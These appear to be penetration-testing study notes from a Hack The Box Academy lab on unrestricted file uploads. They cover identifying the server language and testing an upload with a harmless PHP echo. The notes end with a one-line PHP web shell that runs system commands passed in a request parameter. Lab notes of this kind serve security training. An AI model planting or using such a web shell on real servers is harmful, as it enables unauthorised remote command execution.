 # Basic Exploit

This is when the webapplication accepts any type of file without any validation, (can drag and drop any file type)

### Identifying Web Framework

A **web shell has to be written in the same programming language that runs the web server**, as it runs platform-specific functions and commands to execute system commands on the back-end server, making web shells non-cross-platform scripts

Easy method to determine what language runs the web application

* Access /index.ext and swap ext with various web extensions (php, asp, aspx)

> we can use ffuf or burp to enumerate the file extension. Note that some webapps doesn't use index page or have more than one web extensions

<figure><img src="https://academy.hackthebox.com/storage/modules/136/file_uploads_wappalyzer.jpg" alt=""><figcaption><p>wappalyzer to check for technologies</p></figcaption></figure>

### Vulnerability Identification

After knowing web technologies, we have to check if the webapp is vulnerable.

Test with `<?php echo "Hello HTB";?>` and upload the text to the webapp

Then access the location where the file is stored.

```
http://SERVER_IP:PORT/uploads/test.php
```

<figure><img src="https://academy.hackthebox.com/storage/modules/136/file_uploads_hello_htb.jpg" alt=""><figcaption><p>VULNERABLE</p></figcaption></figure>

### Assessment

```
<?php echo system($_REQUEST['cmd']); ?>
```

<figure><img src="../../.gitbook/assets/image (96) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (99) (1) (1).png" alt=""><figcaption><p>ng-absentvalidation-m7kdm-9cf465b66-wxjhj</p></figcaption></figure>

